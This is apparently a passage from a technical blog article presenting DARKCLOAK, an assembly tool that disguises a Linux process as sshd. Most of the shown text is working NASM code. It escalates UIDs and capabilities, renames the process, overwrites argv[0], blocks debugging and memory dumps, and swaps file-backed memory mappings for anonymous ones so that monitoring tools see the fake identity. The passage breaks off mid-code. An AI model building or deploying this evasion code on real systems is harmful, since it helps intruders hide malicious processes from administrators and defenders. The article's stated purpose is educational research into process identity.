




DARKCLOAK: Novel Flow for Process Masquerading
Process identity spoofing on Linux from user space, no dependencies.
Responsible use
The content of this website is published exclusively for educational and informational purposes. The author does not promote, endorse, or accept responsibility for any misuse or illegal use of the information presented here. Any action taken based on this content must be carried out only in controlled environments, on systems you own, or with explicit and verifiable authorization from the system owner.
Introduction¶
The three previous articles in this series cover, separately, the kernel subsystems involved in a process's identity: the credentials model (UIDs, GIDs, capabilities and their transitions), the ELF format and the auxiliary vector (how the kernel loads a binary and what it builds in the address space) and the visible identity sources of a process (what the kernel exposes and how it is manipulated from user space).
This article unifies the three previous ones in a fully functional practical case. DARKCLOAK chains the manipulation of all user-space-queryable sources in a sequential 11-phase pipeline, progressively transforming the visible identity of the process until it becomes indistinguishable from the impersonated process to monitoring and analysis tools.
The source code is available here.
Contribution
To the best of our knowledge, no published tool combines the simultaneous manipulation of all visible identity sources from user space.
Design Decisions¶
DARKCLOAK is written in NASM x86-64, compiled with nasm -f elf64 and linked with ld without libc. The resulting binary is a static ELF with three PT_LOAD segments: segment 00 contains the ELF headers and Program Header Table (PHT), segment 01 contains the executable instructions and segment 02 stores the initialized and uninitialized global data.

This is critically important: the running process's memory map will contain exclusively these three segments, the stack and the kernel vDSO. This lets us know at all times which VMAs we need to anonymize and how to construct the trampolines.
PT_LOAD 00 (headers + PHT, read-only)
PT_LOAD 01 (executable code, read+execute)
PT_LOAD 02 (data, read+write)
[stack]
[vDSO]
Impersonation Data¶
The data used for identity spoofing is defined in the .data section and defaults to impersonating the sshd service. To impersonate a different process, these values would simply need to be changed.
segment .data
mimic_name db 'sshd',0
mimic_argv db './sshd',0
mimic_exe db '/usr/sbin/sshd',0
mimic_cmdline db '/usr/sbin/sshd',0,'-D',0,
'-oCiphers=aes256-gcm@openssh.com',0,
'-oMACs=hmac-sha2-256',0,
'-f',0,'/etc/ssh/sshd_config',0
mimic_cmdline_length equ $ - mimic_cmdline
mimic_environ db 'LANG=en_US.UTF-8',0,
'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin',0,
'NOTIFY_SOCKET=/run/systemd/notify',0,
'INVOCATION_ID=a1b2c3d4e5f6',0
mimic_environ_length equ $ - mimic_environ
The cmdline includes realistic sshd arguments (-D, -oCiphers, -oMACs, -f), while environ contains environment variables typical of a systemd-managed service (such as NOTIFY_SOCKET or INVOCATION_ID).
Initial State¶
If the process is inspected before applying the spoofing mechanisms, all sources expose the real identity. The memory map references the loaded binary, the credentials reflect the state at launch and the procfs-based observation interfaces show the original information.
# Check state
cat /proc/$PID/comm
readlink /proc/$PID/exe
cat /proc/$PID/cmdline | tr '\0' ' '
cat /proc/$PID/environ | tr '\0' '\n' | head -3
cat /proc/$PID/maps | head -3
cat /proc/$PID/status | grep -E 'Uid|Cap|Gid'
ps aux | grep $PID

Execution Flow¶
The pipeline consists of 11 phases in a strict order where each phase adapts to the results produced by the previous ones. This order is not an implementation choice. It is dictated by the dependencies between the kernel subsystems being manipulated.

ELF introspection goes first because segment ranges are obtained from the auxiliary vector on the stack (covered in article 2), needed for VMA anonymization in phase 5. UID escalation precedes capability escalation because EUID=0 maximizes the permitted set. Capability escalation precedes spoofing because PR_SET_MM requires CAP_SYS_RESOURCE. Capability retention precedes UID demotion because without it the kernel's UID fixup would modify the capability sets (as explained in article 1). Namespaces go last because CLONE_NEWUSER creates an independent capability context.
Step-by-Step Walkthrough¶
Phase 1: ELF Introspection¶
First, the ranges of the process's own segments must be determined before VMA anonymization can be performed. This information is available in the auxiliary vector, located on the stack.
[ high end of the stack ] +----------------------------------+ | argv, envp, filename strings | NULL-terminated bytes +----------------------------------+ | alignment padding (16 B) | +----------------------------------+ | AT_NULL (0x00, 0x00) | 16-byte NULL: auxv terminator | ... | | AT_ENTRY (0x09, address) | 16 bytes per entry | AT_PHNUM (0x05, value) | | AT_PHENT (0x04, value) | | AT_PHDR (0x03, address) | start of auxv (auxiliary vector) +----------------------------------+ | NULL | 8-byte NULL: envp[] terminator | envp[n-1] (pointer) | | ... | | envp[0] (pointer) | +----------------------------------+ | NULL | 8-byte NULL: argv[] terminator | argv[argc-1] (pointer) | | ... | | argv[0] (pointer) | +----------------------------------+ | argc | 8 bytes (unsigned long) +----------------------------------+ ↑ RSP points here at the entry point
AT_PHDR indicates where the Program Header Table is in memory, AT_PHENT the size of each entry and AT_PHNUM how many entries there are.
; The following fragment traverses the stack up to the auxiliary vector,
; obtaining AT_PHDR, AT_PHENT and AT_PHNUM — the three values needed
; to iterate the PHT without reading /proc/self/maps.
; .bss
phdr_value resq 1 ; buffer to store the virtual address of the PHT
phent_value resq 1 ; buffer to store the size in bytes of each Elf64_Phdr entry
phnum_value resq 1 ; buffer to store the total number of PHT entries
; .text
_start:
mov r15, rsp
add r15, 8 ; skip argc (8 bytes)
argv_loop:
cmp qword [r15], 0 ; iterate until argv[] NULL terminator
je envp_loop
add r15, 8
jmp argv_loop
envp_loop:
add r15, 8 ; skip argv[] NULL terminator
cmp qword [r15], 0 ; iterate until envp[] NULL terminator
jne envp_loop
add r15, 8 ; skip envp[] NULL terminator
; r15 now points to the first {a_type, a_val} pair of the auxv
auxv_loop:
mov r13, [r15] ; key (a_type)
add r15, 8
mov r14, [r15] ; value (a_val)
add r15, 8
cmp qword [r15], 0 ; AT_NULL (a_type=0) = end of auxv
jne auxv_par
jmp pht_entry
auxv_par:
cmp r13, 3 ; AT_PHDR
je phdr_entry
cmp r13, 4 ; AT_PHENT
je phent_entry
cmp r13, 5 ; AT_PHNUM
je phnum_entry
jmp auxv_loop
phdr_entry:
mov [rel phdr_value], r14 ; save the PHT base address
jmp auxv_loop
phent_entry:
mov [rel phent_value], r14 ; save the size of each Elf64_Phdr
jmp auxv_loop
phnum_entry:
mov [rel phnum_value], r14 ; save the number of PHT entries
jmp auxv_loop
With the three auxv values in hand (AT_PHDR, AT_PHENT and AT_PHNUM), the PHT is iterated and each PT_LOAD is classified by its permissions. For each segment, the aligned end address is calculated using the round-up formula:
; Once AT_PHDR, AT_PHENT and AT_PHNUM are obtained from the auxv,
; the PHT is iterated entry by entry. Each PT_LOAD entry is classified
; by its flags to extract the virtual address range of the three binary segments.
; .bss
elf64_phdr: ; temporary buffer where each Elf64_Phdr entry is copied
p_type resd 1
p_flags resd 1
p_offset resq 1
p_vaddr resq 1
p_paddr resq 1
p_filesz resq 1
p_memsz resq 1
p_align resq 1
tmp_bss:
headers_segment_privs resd 1 ; buffer to store segment permissions
headers_segment_start resq 1 ; buffer to store segment virtual start address (p_vaddr)
headers_segment_end resq 1 ; buffer to store segment virtual end address aligned to p_align
; .text
pht_entry:
cmp qword [rel phnum_value], 0
je mime ; if phnum_value reaches 0, all PT_LOADs have been processed
mov rsi, [rel phdr_value] ; rsi = PHT base address in memory
lea rdi, [rel elf64_phdr] ; rdi = local destination buffer
mov rcx, [rel phent_value] ; rcx = bytes to copy (size of Elf64_Phdr)
mov rax, [rel phent_value]
; calculate the address of the PHT entry
; &phdr[r15] = phdr_value + (phent_value * r15)
imul rax, r15
add rsi, rax
cld
rep movsb ; copy the entry into the local elf64_phdr buffer
dec qword [rel phnum_value] ; decrement remaining entries counter
inc r15 ; advance to the next entry index
cmp dword [rel p_type], 1 ; PT_LOAD?
jne pht_entry
; classify the PT_LOAD by its flags:
; PF_R (4) → ELF headers + PHT → PROT_READ (1)
; PF_R|PF_W (6) → data (.data, .bss) → PROT_READ|PROT_WRITE (3)
; PF_R|PF_X (5) → code (.text) → PROT_READ|PROT_EXEC (5)
call check_headers_segment
call check_data_segment
call check_text_segment
jmp pht_entry
check_headers_segment:
cmp dword [rel p_flags], 4 ; PF_R
jne .skip
mov r12, [rel p_vaddr]
mov [rel headers_segment_start], r12
add r12, [rel p_memsz]
; round up: (addr + (n - 1)) & ~(n - 1)
mov r13, [rel p_align]
dec r13 ; n - 1
add r12, r13 ; addr + (n - 1)
not r13 ; ~(n - 1)
and r12, r13 ; align
mov [rel headers_segment_end], r12
mov dword [rel headers_segment_privs], 1 ; PROT_READ
.skip:
ret
The same logic repeats for the data segment (PF_R|PF_W → PROT_READ|PROT_WRITE = 3) and the executable code segment (PF_R|PF_X → PROT_READ|PROT_EXEC = 5).
Phase 2: Credential Reading¶
The current UIDs and GIDs of the process are read to decide the execution branch and allow restoring the original values during the demotion phase.
; Read the three UIDs and three GIDs of the process
; .bss
ruid_val resd 1 ; buffer to store the Real UID value (4 bytes)
euid_val resd 1 ; buffer to store the Effective UID value (4 bytes)
suid_val resd 1 ; buffer to store the Saved Set-User-ID value (4 bytes)
rgid_val resd 1 ; buffer to store the Real GID value (4 bytes)
egid_val resd 1 ; buffer to store the Effective GID value (4 bytes)
sgid_val resd 1 ; buffer to store the Saved Set-GID value (4 bytes)
; .text
mov rax, 118 ; GETRESUID
lea rdi, [rel ruid_val]
lea rsi, [rel euid_val]
lea rdx, [rel suid_val]
syscall
mov rax, 120 ; GETRESGID
lea rdi, [rel rgid_val]
lea rsi, [rel egid_val]
lea rdx, [rel sgid_val]
syscall
Phase 3: UID Escalation¶
If any of the three UIDs (real, effective or saved) is 0, the process can set all of them to 0 in a single syscall. As a consequence, the kernel comes to consider the process as privileged and during the credential readjustment (capability fixup), all privileged capabilities will be set in the permitted and effective sets.
; If any of the three UIDs is 0, the process can invoke
; SETRESUID(0,0,0) to set them all to 0.
; .bss
ruid_val resd 1 ; Real UID value (4 bytes)
euid_val resd 1 ; Effective UID value (4 bytes)
suid_val resd 1 ; Saved Set-User-ID value (4 bytes)
rgid_val resd 1 ; Real GID value (4 bytes)
egid_val resd 1 ; Effective GID value (4 bytes)
sgid_val resd 1 ; Saved Set-GID value (4 bytes)
; .text
mov r12d, [rel ruid_val]
cmp r12d, 0
je user_escalation ; RUID = 0 → escalate
mov r13d, [rel euid_val]
cmp r13d, 0
je user_escalation ; EUID = 0 → escalate
mov r14d, [rel suid_val]
cmp r14d, 0
je user_escalation ; SUID = 0 → escalate
jmp caps_escalation
user_escalation:
mov rax, 117 ; SETRESUID
xor rdi, rdi ; RUID = 0
xor rsi, rsi ; EUID = 0
xor rdx, rdx ; SUID = 0
syscall
If no UID is 0, the process jumps directly to the capability escalation phase.
Phase 4: Capability Escalation¶
It is possible to maximize the process's capabilities by copying the permitted set into the effective and inheritable sets. When EUID=0, we start with all privileged capabilities in the effective set, but they will be copied to the remaining sets regardless. This way, during a future privilege demotion we can keep capabilities only in the permitted set and activate them later when needed, without keeping them permanently enabled in the effective set.
; Copy the permitted set to the effective and inheritable sets.
; ┌──────────────────────────────────────┐
; │ datap[0].effective (caps 0–31) │ offset +0
; │ datap[0].permitted (caps 0–31) │ offset +4
; │ datap[0].inheritable (caps 0–31) │ offset +8
; ├──────────────────────────────────────┤
; │ datap[1].effective (caps 32–63) │ offset +12
; │ datap[1].permitted (caps 32–63) │ offset +16
; │ datap[1].inheritable (caps 32–63) │ offset +20
; └──────────────────────────────────────┘
; total: 24 bytes
; .data
; struct __user_cap_header_struct
hdrp:
dd 0x20080522 ; _LINUX_CAPABILITY_VERSION_3
dd 0 ; PID 0 = current thread
; .bss
datap resb 24 ; two contiguous __user_cap_data_struct (12 bytes each)
; .text
caps_escalation:
; CAPGET: read the current three sets
mov rax, 125
lea rdi, [rel hdrp]
lea rsi, [rel datap]
syscall
; copy permitted to effective and inheritable (low half, caps 0–31)
mov r12d, [rel datap+4] ; datap[0].permitted
mov [rel datap], r12d ; datap[0].effective ← permitted
mov [rel datap+8], r12d ; datap[0].inheritable ← permitted
; copy permitted to effective and inheritable (high half, caps 32–63)
mov r13d, [rel datap+16] ; datap[1].permitted
mov [rel datap+12], r13d ; datap[1].effective ← permitted
mov [rel datap+20], r13d ; datap[1].inheritable ← permitted
; CAPSET: apply changes to the process
mov rax, 126
lea rdi, [rel hdrp]
lea rsi, [rel datap]
syscall
Before CAPSET: After CAPSET: ┌─────────────────────────┐ ┌─────────────────────────┐ │ effective = 0x00... │ │ effective = permitted │ │ permitted = 0xa8... │ ──▶ │ permitted = 0xa8... │ (unchanged) │ inheritable = 0x00... │ │ inheritable = permitted │ └─────────────────────────┘ └─────────────────────────┘
The most important capability for the spoofing phase is CAP_SYS_RESOURCE (bit 24). Without it, the entire PR_SET_MM block in phase 5 is skipped.
Phase 5: Visible Identity Spoofing¶
The visible identity of a Linux process does not reside in a single modifiable source. It is distributed across multiple internal system structures. DARKCLOAK acts on each one through the specific mechanisms that allow its alteration.
Phase 5a: comm Change¶
The comm field in the task_struct structure is a 16-byte array, consisting of 15 usable characters plus the null terminator (\0), that indicates the short name of the process. This field is the source of /proc/PID/comm and is queried by tools such as ps or top, as well as by all eBPF programs that use bpf_get_current_comm. Modifying it does not require any special capabilities.
; Modify the comm field of task_struct
; .data
mimic_name db 'sshd',0
; .text
mov rax, 157 ; PRCTL
mov rdi, 15 ; PR_SET_NAME
lea rsi, [rel mimic_name] ; pointer to the replacement string ("sshd\0")
xor rdx, rdx
xor r10, r10
xor r8, r8
syscall
Names in brackets ([kworker/0:1], [migration/0]) are by convention kernel threads. A user-space process can adopt one of these names to blend in with legitimate system processes.
Phase 5b: argv[0] Overwrite¶
The value argv[0] is the first element of the argument array the process receives at startup. By convention, it contains the name or path of the executable that launched the process. The kernel places it on the stack during execve, in the memory region between arg_start and arg_end of the mm_struct.
Assuming the stack has not been modified by the program, overwriting the value stored in argv[0] amounts to a direct write to a known location within the process's address space, specifically, to the address pointed to by the pointer located at rsp+8.
[ high end of the stack ] +----------------------------------+ | argv, envp, filename strings | NULL-terminated bytes +----------------------------------+ | alignment padding (16 B) | +----------------------------------+ | AT_NULL (0x00, 0x00) | 16-byte NULL: auxv terminator | ... | | AT_ENTRY (0x09, address) | 16 bytes per entry | AT_PHNUM (0x05, value) | | AT_PHENT (0x04, value) | | AT_PHDR (0x03, address) | start of auxv (auxiliary vector) +----------------------------------+ | NULL | 8-byte NULL: envp[] terminator | envp[n-1] (pointer) | | ... | | envp[0] (pointer) | +----------------------------------+ | NULL | 8-byte NULL: argv[] terminator | argv[argc-1] (pointer) | | ... | | argv[0] (pointer) | +----------------------------------+ | argc | 8 bytes (unsigned long) +----------------------------------+ ↑ RSP points here at the entry point
; Overwrite argv[0]
; .data
mimic_argv db './sshd',0
;.text
mov r12, [rsp+8] ; address of the original argv[0] string on the stack
mov r13, [rel mimic_argv] ; content of the replacement string ("./sshd\0")
mov [r12], r13 ; overwrite the original string with the replacement
Overwriting argv[0] modifies what /proc/PID/cmdline returns, since the latter is built from the same memory region that contains the process arguments (arg_start and arg_end).
Phase 5c: Dumpable Disable (Anti-Debugging and Anti-Dumping)¶
With dumpable = 1 (the default), the files /proc/PID/maps, /proc/PID/mem, /proc/PID/environ and /proc/PID/auxv are accessible by the process owner. Setting it to 0 transfers ownership of those files to root:root, blocking their read access for any process without CAP_SYS_PTRACE in the effective set and causing ptrace(PTRACE_ATTACH) from a process with the same UID to fail with EPERM.
; Set dumpable to 0
;.text
mov rax, 157 ; PRCTL
mov rdi, 4 ; PR_SET_DUMPABLE
mov rsi, 0 ; DUMPABLE = 0
xor rdx, rdx
xor r10, r10
xor r8, r8
syscall
This measure does not alter the process's visible identity. Rather, it significantly hinders inspection by third parties.
Phase 5d: cmdline, environ and exe Spoofing¶
The three remaining sources originate in the process's mm_struct and are modified through the PR_SET_MM_* operations of PRCTL. Although all three are managed through the same interface, the manipulation mechanism differs.
cmdline and environ are manipulated by redirecting the arg_start/arg_end and env_start/env_end pointers to controlled buffers. exe, on the other hand, is not read from an address range in the process but from the exe_file field of the mm_struct, which contains a pointer to a kernel struct file. Its manipulation requires passing a file descriptor of the target binary so the kernel replaces the reference in its own structures, hence the CAP_SYS_RESOURCE requirement and the EBUSY error when file-backed VMAs still point to the original executable.
Therefore, before making the modifications, it must be verified that CAP_SYS_RESOURCE (bit 24) is present in the effective set:
; Check for CAP_SYS_RESOURCE capability
; .bss
datap resb 24 ; two contiguous __user_cap_data_struct (12 bytes each)
; .text
mov r14d, [rel datap] ; datap[0].effective (caps 0–31)
bt r14d, 24 ; test CAP_SYS_RESOURCE (bit 24) in the effective set
jnc caps_ret ; if CAP_SYS_RESOURCE is absent, skip the entire PR_SET_MM block
If the capability is present, all file-backed VMAs must be anonymized.
VMA anonymization via trampoline
Since the .text segment contains the executable code and RIP points to instructions within it, unmapping it live would cause an immediate segmentation fault. The solution is to build a trampoline: a temporary anonymous memory page from which to execute the entire anonymization process.
; Build and jump to the trampoline for anonymization
; .bss
tmp_mm_addr resq 1 ; buffer to store the start address of the temporary page
tmp_bss:
headers_segment_privs resd 1 ; PROT_READ (1)
headers_segment_start resq 1 ; virtual start address of the headers + PHT segment
headers_segment_end resq 1 ; virtual end address of the headers + PHT segment
data_segment_privs resd 1 ; PROT_READ | PROT_WRITE (3)
data_segment_start resq 1 ; virtual start address of the data segment
data_segment_end resq 1 ; virtual end address of the data segment
text_segment_privs resd 1 ; PROT_READ | PROT_EXEC (5)
text_segment_start resq 1 ; virtual start address of the code segment
text_segment_end resq 1 ; virtual end address of the code segment
return_addr resq 1 ; jump target after anonymization is complete
tmp_bss_len equ $ - tmp_bss
; .text
tmp_mm:
; allocate a temporary anonymous page with RW permissions
mov rax, 9 ; MMAP
xor rdi, rdi ; kernel chooses base address
mov rsi, 4096 ; one page (4096 bytes)
mov rdx, 0x3 ; PROT_READ | PROT_WRITE
mov r10, 0x22 ; MAP_PRIVATE | MAP_ANONYMOUS
mov r8, -1 ; fd = -1 (anonymous)
xor r9, r9
syscall
mov rbx, rax ; rbx = base address of the temporary page
mov [rel tmp_mm_addr], rax
; copy the anonymization code (mm_start → mm_end) to the temporary page
lea rsi, [rel mm_start]
mov rdi, rbx
mov rcx, mm_end - mm_start
cld
rep movsb
; store the return address (un_tmp_mm) at the end of the page
lea r12, [rel un_tmp_mm]
mov [rel return_addr], r12
; copy tmp_bss (segment ranges and permissions) to the end of the page
mov r12, rbx
add r12, 4096
sub r12, tmp_bss_len
lea rsi, [rel tmp_bss]
mov rdi, r12
mov rcx, tmp_bss_len
cld
rep movsb
; make the page R-X
mov rax, 10 ; MPROTECT
mov rdi, rbx
mov rsi, 4096
mov rdx, 0x5 ; PROT_READ | PROT_EXEC
syscall
; jump to the temporary page
jmp rbx
The code inside the temporary page (mm_start → mm_end) iterates the three segments and for each one calls the mm function:
; Anonymization of the three PT_LOAD segments from the temporary page
; .text
mm_start:
; each block reads permissions, start/end address and calls the mm function
; r12 points to the start of tmp_bss copied to the end of the temporary page
; headers + PHT segment
mov r13d, [r12] ; segment permissions
add r12, 4
mov r14, [r12] ; virtual start address
add r12, 8
mov r15, [r12] ; virtual end address
add r12, 8
call mm
; data segment
mov r13d, [r12]
add r12, 4
mov r14, [r12]
add r12, 8
mov r15, [r12]
add r12, 8
call mm
; code segment
mov r13d, [r12]
add r12, 4
mov r14, [r12]
add r12, 8
mov r15, [r12]
add r12, 8
call mm
; all three segments are now anonymous VMAs with no reference to the binary on disk
jmp [r12] ; jump to return address inside the anonymized .text
The mm function executes the anonymization sequence for a specific segment:
; Anonymization of a PT_LOAD segment
; Input:
; r13d = segment permissions (1=PROT_READ, 3=PROT_READ|PROT_WRITE, 5=PROT_READ|PROT_EXEC)
; r14 = virtual start address of the segment
; r15 = virtual end address of the segment
; .text
mm:
sub r15, r14 ; r15 = segment size in bytes
; allocate an anonymous region of the same size
mov rax, 9 ; MMAP
xor rdi, rdi ; kernel chooses base address
mov rsi, r15 ; size = segment size
mov rdx, 0x3 ; PROT_READ | PROT_WRITE
mov r10, 0x22 ; MAP_PRIVATE | MAP_ANONYMOUS
mov r8, -1 ; fd = -1 (anonymous)
xor r9, r9
syscall
mov rbx, rax
; copy the original segment content to the anonymous region
mov rsi, r14 ; source = start address of the original segment
mov rdi, rbx ; destination = start address of the newly allocated anonymous region
mov rcx, r15 ; number of bytes to copy from source
cld
rep movsb
; unmap the original segment (file-backed)
mov rax, 11 ; MUNMAP
mov rdi, r14 ; start address of the original segment
mov rsi, r15
syscall
; relocate the anonymous region to the original segment's now-unmapped range
mov rax, 25 ; MREMAP
mov rdi, rbx ; source = start address of the anonymous region
mov rsi, r15
mov rdx, r15
mov r10, 0x3 ; MREMAP_MAYMOVE | MREMAP_FIXED
mov r8, r14 ; destination = original start address of the segment
syscall
; restore the original segment permissions
mov rax, 10 ; MPROTECT
mov rdi, r14
mov rsi, r15
movzx rdx, r13d ; original segment permissions
syscall
ret
mm_end:
Once it has served its purpose, the temporary page is unmapped:
; Remove the temporary page
; .bss
tmp_mm_addr resq 1 ; start address of the temporary page
; .text
un_tmp_mm:
mov rax, 11 ; MUNMAP
mov rdi, [rel tmp_mm_addr] ; start address of the temporary page
mov rsi, 4096
syscall
The complete anonymization sequence is as follows:
| Step | RIP location | Result |
|---|---|---|
| 0 | .text |
3 file-backed VMAs. |
| 1 | .text |
A temporary anonymous page is allocated. 3 file-backed VMAs + 1 anonymous VMA. |
| 2 | .text |
Code and auxiliary data are copied to the new VMA. |
| 3 | .text |
Execute permission is set on the temporary page. |
| 4 | Temporary page | Jump to the start of the new VMA. RIP leaves the initial .text. |
| 5 | Temporary page | ELF headers and PHT segment converted to anonymous memory. |
| 6 | Temporary page | Data segment converted to anonymous memory. |
| 7 | Temporary page | Code segment converted to anonymous memory. |
| 8 | Anonymized .text |
Execution flow is returned to the now-anonymized .text. 4 anonymous VMAs. |
| 9 | Anonymized .text |
The temporary trampoline is removed. 3 anonymous VMAs. |
With all original VMAs now anonymized, the PR_SET_MM_* operations are executed:
; cmdline, environ and exe spoofing via PR_SET_MM
; .data
mimic_cmdline db '/usr/sbin/sshd',0,'-D',0,'-oCiphers=aes256-gcm@openssh.com',0,'-oMACs=hmac-sha2-256',0,'-f',0,'/etc/ssh/sshd_config',0
mimic_cmdline_length equ $ - mimic_cmdline
mimic_environ db 'LANG=en_US.UTF-8',0,'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin',0,'NOTIFY_SOCKET=/run/systemd/notify',0,'INVOCATION_ID=a1b2c3d4e5f6',0
mimic_environ_length equ $ - mimic_environ
mimic_exe db '/usr/sbin/sshd',0
; .text
mm_spoof:
; redirect arg_start and arg_end to mimic_cmdline
mov rax, 157
mov rdi, 35 ; PR_SET_MM
mov rsi, 8 ; PR_SET_MM_ARG_START
lea rdx, [rel mimic_cmdline]
xor r10, r10
